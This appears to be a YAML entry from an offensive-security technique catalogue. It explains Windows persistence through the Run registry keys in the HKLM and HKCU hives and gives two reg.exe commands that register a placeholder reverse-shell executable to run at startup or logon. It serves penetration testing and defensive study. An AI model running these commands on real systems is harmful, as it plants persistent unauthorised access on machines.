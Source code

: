 ```yaml
---
description: |
  It is possible to gain persistence on a windows machine by adding reg keys that will execute an arbitrary payload during logon or startup. Keys added to the HKLM hive will execute on startup. Keys added to the HKCU hive will execute when the corresponding user logs on. Adding keys into the HKLM hive will require an elevated shell. There are four keys that can be used: Run, RunOnce, RunServices, and RunServicesOnce. By default, a RunOnce key is deleted after the specified command is executed. The path for these keys is the same for the HKLM and HKCU hives.

  Command Reference:

  	Value Name: Persistence

  	RegKey data type: REG_SZ

  	Data: "C:\Path\To\revshell.exe"

  	KeyName: "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run"

command: |
   reg.exe add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v Persistence /t REG_SZ /d "C:\Path\To\revshell.exe"
   reg.exe add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Persistence /t REG_SZ /d "C:\Path\To\revshell.exe"

items:
  - Shell
OS:
  - Windows
attack_types:
  - Persistance
references:
  - https://pentestlab.blog/2019/10/01/persistence-registry-run-keys/
  - https://www.hackingarticles.in/windows-persistence-using-winlogon/
  - https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg
  - https://docs.microsoft.com/en-us/windows-hardware/drivers/install/runonce-registry-key
---
```

